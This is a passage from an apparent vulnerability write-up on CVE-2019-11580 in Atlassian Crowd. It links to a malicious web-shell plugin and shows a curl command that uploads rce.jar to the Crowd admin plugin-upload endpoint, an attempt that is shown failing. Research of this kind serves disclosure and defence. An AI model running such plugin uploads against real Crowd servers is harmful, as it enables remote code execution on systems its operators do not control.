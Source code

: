 ![Normal Upload](/images/atlassian/normal-plugin-install.png)

As we can see from the result, it successfully installed the plugin; so we should be able to create and install our own plugin, right? 

I created a malicious plugin which can be found <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/research/tree/master/CVE-2019-11580/atlassian-shell'>here</a>

So let's compile it and attempt to upload it.

```bash
root@doggos:~# ./compile.sh
root@doggos:~# curl --form "file_cdl=@rce.jar" http://localhost:8095/crowd/admin/uploadplugin.action -v
```

![Failed Upload](/images/atlassian/failed-upload-plugin.png)
